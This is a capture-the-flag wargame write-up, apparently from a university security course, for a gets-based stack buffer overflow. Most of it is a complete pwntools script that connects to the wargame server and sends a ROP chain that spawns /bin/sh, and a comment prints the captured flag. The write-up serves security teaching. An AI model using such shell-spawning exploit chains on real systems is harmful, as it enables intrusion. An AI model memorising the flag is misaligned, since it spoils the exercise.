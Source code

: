 List of vulnerabilities
--------------------
1. The program uses `gets` in order to take input into a fixed sized buffer

Steps to exploit
------------------
1. Use ROPgadget to create a ropchain by running `ROPgadget --binary static --ropchain`
2. Send 12 bytes of padding followed by your rop chain

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-
from pwn import *
from struct import pack

# flag : 6447{698fe9fd-1c5e-4992-b2c0-6df10e7e718a}

def main():
    t = "wargames.6447.sec.edu.au"
    h = "8004"

    r = remote(t, h)

    padding = 12

    p = 'A' * padding

    p += pack('<I', 0x0806eada) # pop edx ; ret
    p += pack('<I', 0x080ea060) # @ .data
    p += pack('<I', 0x080bb236) # pop eax ; ret
    p += '/bin'
    p += pack('<I', 0x0809a54d) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806eada) # pop edx ; ret
    p += pack('<I', 0x080ea064) # @ .data + 4
    p += pack('<I', 0x080bb236) # pop eax ; ret
    p += '//sh'
    p += pack('<I', 0x0809a54d) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806eada) # pop edx ; ret
    p += pack('<I', 0x080ea068) # @ .data + 8
    p += pack('<I', 0x080543e0) # xor eax, eax ; ret
    p += pack('<I', 0x0809a54d) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080481c9) # pop ebx ; ret
    p += pack('<I', 0x080ea060) # @ .data
    p += pack('<I', 0x0806eb01) # pop ecx ; pop ebx ; ret
    p += pack('<I', 0x080ea068) # @ .data + 8
    p += pack('<I', 0x080ea060) # padding without overwrite ebx
    p += pack('<I', 0x0806eada) # pop edx ; ret
    p += pack('<I', 0x080ea068) # @ .data + 8
    p += pack('<I', 0x080543e0) # xor eax, eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x0807b52f) # inc eax ; ret
    p += pack('<I', 0x080493e1) # int 0x80

```